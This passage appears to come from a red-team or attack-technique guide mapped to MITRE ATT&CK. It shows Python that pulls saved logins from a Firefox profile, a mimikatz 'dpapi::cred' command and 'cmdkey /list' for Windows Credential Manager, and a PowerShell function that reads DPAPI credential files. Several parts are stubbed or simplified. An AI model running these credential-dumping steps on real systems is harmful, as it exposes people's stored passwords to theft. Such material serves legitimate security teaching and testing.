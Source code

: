 ```python
    
    with open(logins_file, 'r') as f:
        logins = json.loads(f.read())
    
    credentials = []
    
    for login in logins['logins']:
        url = login['hostname']
        username = decrypt_firefox(login['encryptedUsername'], profile_path)
        password = decrypt_firefox(login['encryptedPassword'], profile_path)
        
        credentials.append({
            'url': url,
            'username': username,
            'password': password
        })
    
    return credentials

def decrypt_firefox(encrypted_data, profile_path):
    """Decrypt Firefox password using NSS library"""
    # This requires NSS library - simplified version
    # Real implementation would use ctypes to call NSS functions
    pass
```

### 2.2 Windows Credential Manager (T1555.004)

```powershell
# Enumerate stored credentials
cmdkey /list

# Export credentials with mimikatz
mimikatz.exe "dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\*" "exit"
```

**PowerShell Credential Extraction**:
```powershell
function Get-StoredCredentials {
    $credPath = "$env:LOCALAPPDATA\Microsoft\Credentials"
    
    Get-ChildItem $credPath | ForEach-Object {
        $credFile = $_.FullName
        
        # Read credential file
        $bytes = [System.IO.File]::ReadAllBytes($credFile)
        
        # Parse DPAPI blob
        # This is simplified - real parsing is complex
        
        Write-Host "Found credential: $credFile"
    }
}
```
